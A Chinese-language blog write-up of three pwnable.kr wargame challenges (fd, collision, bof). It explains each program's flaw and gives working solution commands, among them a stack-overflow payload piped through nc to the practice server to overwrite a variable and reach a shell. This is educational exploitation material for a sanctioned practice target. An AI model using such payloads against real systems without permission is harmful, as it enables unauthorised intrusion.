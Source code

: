 ```yaml
---
layout: post
title: "Toddler's Bottle Writeup [pwnable.kr]"
tags: [security, writeup]
---
```


[pwnable.kr](http://pwnable.kr) 是一个非商业性的 Wargame 网站，提供了大量的 Pwn 类型的挑战，可以在该网站上练习和学习 Pwn 技术。

（PS：文章内容会随着做题进度进行更新）

### [fd]

> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 (pw:guest)

通过 ssh 连接到答题环境后，可以在当前目录看到三个文件 fd、fd.c、flag。

fd 是一个可执行文件，用于读取 flag 文件，其源码如下：

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
{% endhighlight %}

程序通过 `argv[1]` 获取一字符串并使用 `atoi()` 函数将其转化为整型于 `0x1234` 作差，其结果赋值给整型变量 `fd`。

随后程序从 `fd` 文件描述符中读取32字节到 `buf` 中，并与字符串 `LETMEWIN\n` 进行比较，若相等则打印 flag 文件的内容，否则失败。

在 Linux 系统下，使用 `open()` 函数成功打开文件后会返回针对该文件的文件描述符（整型）,若打开失败会返回 `-1`。文件描述符 `0`，`1`，`2`分别对应系统的标准输入，标准输出，和标准错误输出。

此题可利用标准输入来将字符串 `LETMEWIN\n` 写到标准输入中，然后使得 `fd` 变量值为 `0` 即可从标注输入中读入。

	fd@ubuntu:~$ echo "LETMEWIN" | ./fd 4660
	good job :)
	mommy! I think I know what a file descriptor is!!
	
或者：

	fd@ubuntu:~$ ./fd 4660
	LETMEWIN
	good job :)
	mommy! I think I know what a file descriptor is!!
	

### [collision]

> Daddy told me about cool MD5 hash collision today.
>
> I wanna do something like that too!
>
> ssh col@pwnable.kr -p2222 (pw:guest)

登录后，查看当前目录下的 `col.c` 源文件。

{% highlight c %}
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
{% endhighlight %}

程序从 `argv[1]` 中得到一长度为20字节的字符串，并将其拆成5组数据，将5组数据的整型值相加与目标值 `0x21DD09EC` 进行比较，相等则打印 flag，不等则失败。

此题直接将 `0x21DD09EC` 拆成5个数字的和即可，通过 `argv[1]` 输入时，需要注意使用小端序。

	./col `python -c "print '\xc8\xce\xc5\x06' * 4 + '\xcc\xce\xc5\x06'"`
	daddy! I just managed to create a hash collision :)
	
	
### [bof]

> Nana told me that buffer overflow is one of the most common software vulnerability. 
>
> Is that true?
>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
>
> Running at : nc pwnable.kr 9000

将 `bof` 文件下载下来，用 `file` 命令查看一下，可以看到是一个32位的 ELF 可执行文件，拖到 Ubuntu 中进行调试。

![img]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-1.png)

简单运行发现程序需要我们输入一些字符串，根据提示可以知道此题需要进行溢出。直接抄起 `gdb` 调试之。尝试直接使用 `b main` 在主函数处设置断点。

![img]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-2.png)

`r` 开始运行，程序断在了主函数入口处，使用 `n` 进行单步跟踪，当走到 `0x8000069a` 处时，程序 `call 0x8000062c <func>` 调用了 `0x8000062c` 处的函数，直接 `s` 单步进入继续跟。

![img]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-3.png)

当走到 `0x8000064c` 程序将寄存器 eax 的值 `0xbffff55c` 压入栈，随后进行 `call   0xb7e78cd0 <_IO_gets>`，此处为 c 语言中的 gets() 函数调用，最终 `0xbffff55c` 会指向用户输入的字符串。这里使用peda中的 `pattern create 64` 创建一个64字节的测试 payload 将其输入到程序中，方便后续调试。

![img]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-4.png)

输入完字符串后，程序停在了 `0x80000654` 进行了一个简单的比较操作 `cmp DWORD PTR [ebp+0x8],0xcafebabe`，比较 `DWORD PTR [ebp+0x8]` 处的值是否等于 `0xcafebabe`，而此时的 `DWORD PTR [ebp+0x8]` 地址为 `0xbffff590`，回顾一下刚刚指向用户输入字符串的地址 `0xbffff55c`。输入的字符串地址处在一个低地址上，如果输入足够长的字符串，就能够覆盖到后面 `0xbffff590` 处的值。

当比较成功时，程序不会发生跳转，调用 `call 0xb7e54190 <__libc_system>`，而其参数为 `/bin/sh`，如下图。

![img]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-5.png)

理清过程后，剩下的就只需要找到输入字符串指针距离 `0xbffff590` 的偏移即可。由于之前使用了特殊的 payload，这时候我们查看一下输入字符串周围的堆栈情况。

![img]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-6.png)

可以看到刚才输入的 payload 已经覆盖到了 `0xbffff590` 处的值，但是并不是程序需要的 `0xcafebabe`，使用 `pattern offset` 来计算偏移。

![img]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-7.png)

可以看到，`0xbffff590` 距离字符串开头的偏移为52个字节，因此为了成功地使程序跳转执行system("/bin/sh")，我们构造的输入字符串就应该为：

	"A" * 52 + "\xbe\xba\xfe\xca"
	
此时，直接使用命令行远程打 payload：

	(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
	
![img]({{ site.url }}/public/img/article/2015-07-24-toddler-s-bottle-writeup-pwnable-kr/bof-8.png)

（当然，题目提供了 c 源码，也可以直接阅读源码进行分析）



